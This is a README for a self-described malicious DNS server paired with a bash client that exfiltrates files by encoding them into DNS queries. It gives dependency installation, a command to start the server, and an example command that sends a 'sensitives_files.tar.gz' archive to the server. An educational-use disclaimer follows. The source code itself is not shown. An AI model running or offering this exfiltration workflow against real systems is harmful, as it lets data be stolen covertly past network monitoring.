 # Malicious DNS Server & Data Exfiltration Client

This project consists of a malicious DNS server and a client for data exfiltration via DNS queries.

[Screencast from 2025-04-01 10-34-54.webm](https://github.com/user-attachments/assets/05056cd3-59a3-4704-8b57-c999e16b8545)

## Features
- **DNS Server**: Intercepts and processes specially crafted DNS requests, python file.
- **Data Exfiltration**: Encodes and extracts data using DNS queries, bash file. Uses `dig` or `host` if available.

## Requirements
- Python 3.x
- Required libraries: `dnslib`

Install dependencies using:
```sh
pip install dnslib
```

## Usage
### Start the Malicious DNS Server
```sh
python3 malicious_dns_server.py
```

The server will listen for incoming DNS queries and extract encoded data.

### Use the Client for Data Exfiltration
```sh
./client.sh <file_to_exfiltrate> <dns_ip> <dns_port>
```
Example:
```sh
./client.sh sensitives_files.tar.gz 127.0.0.1 5353
```
This will encode and send the data using DNS queries to the malicious server.

## Security Warning ⚠️
This tool is for educational and research purposes only. Unauthorized use is illegal and unethical. Do not use this tool in real-world attacks.

## License
This project is licensed under the MIT License.

